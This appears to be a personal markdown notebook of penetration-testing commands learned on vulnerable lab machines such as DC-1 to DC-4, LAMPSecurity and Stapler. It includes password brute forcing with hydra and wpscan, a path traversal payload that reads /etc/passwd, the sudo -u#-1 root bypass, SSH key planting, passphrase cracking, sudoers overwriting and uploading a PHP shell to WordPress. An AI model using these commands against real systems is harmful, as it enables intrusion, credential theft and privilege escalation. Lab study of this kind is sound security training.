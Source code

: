 # interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
```
#### DC-1
what I had learn from this machine is:
```
find / -exec /bin/sh \;
```
#### DC-2
what I had learn from this machine is:
```
./wpscan --url http://dc-2/
./wpscan --url http://dc-2/ --enumerate : enumerate users
./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
ssh -p- dc-2 : check all ports
ssh -p 7744 tom@dc-2
how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
```
this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html

#### DC-3
what I had learn from this machine is:
```
locate -r .nse$ | grep joomla : look nmap script appropriate to my need
searchsploit linux kernel 4.4 : copier and paste sur google that may have repository in github.
```
#### DC-4
what I had learn from this machine is:
```
requests.post(url).status_code
brute force with burp suite with a wordlist <1000 words
echo "user ALL=(ALL) ALL" | sudo tee /etc/sudoers : tee priviledge escalation
```
#### JIS-CTF01
what I had learn from this machine is:
```
grep -rli 'technawi' --exclude-dir=/proc . 2>/dev/null
```
#### Basic-pentest-2
what I had learn from this machine is:
```
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.0.4.22 
http-get /manager/html -V : brute force tomcat authentofocation.
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -V : meme chose que la premiere
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -t 1 -V :  send the request to burp suite

enum4linx 10.0.4.22: list all shared files and groups and user systems
ssh2john id_rsa file.txt :  to retrive the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt file.txt : return the passphrase
ssh -i id_rsa kay@10.0.4.22
```
S00 interesting article in SMB enumeration: [samba enumeration tool](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)
#### Basic-pentest-2
what I had learn from this machine is:
```
wordpress authentication: I can brute force the username first then the password with hydra, 
the uniq thing that can be changed is error message contained in hydra syntax. : minimize the complexity
./wpscan -u http://10.0.4.23 --enumerate u/tt/..
install file manager in wordpress if you have admin access (it will contain the shell)
nmap --interactive => !sh : root access.
```
#### Stapler 
get in as john user and add a plugin (upload shell.php) 
=> https://10.0.4.32:13780/blogblog/wp-content/uploads: to see the upload file.



